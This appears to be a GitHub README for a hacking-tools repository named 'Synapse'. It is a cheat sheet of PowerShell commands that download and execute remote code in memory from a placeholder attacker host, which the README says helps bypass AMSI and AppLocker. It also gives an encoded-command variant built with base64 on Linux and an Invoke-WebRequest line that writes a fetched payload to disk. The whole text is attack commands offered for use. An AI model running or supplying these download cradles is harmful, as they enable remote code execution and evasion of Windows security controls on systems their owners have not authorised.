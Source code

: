 # Synapse

> Repo for {Hacking Tools}

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
`powershell -c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
`C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
### Encoded
> run in linux
`echo powershell -EncodedCommand $(echo -n "IEX (New-Object Net.WebClient).DownloadString('http://$LHOST:$PORT/$FILE')" | iconv  -t UTF-16LE | base64 -w0)`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
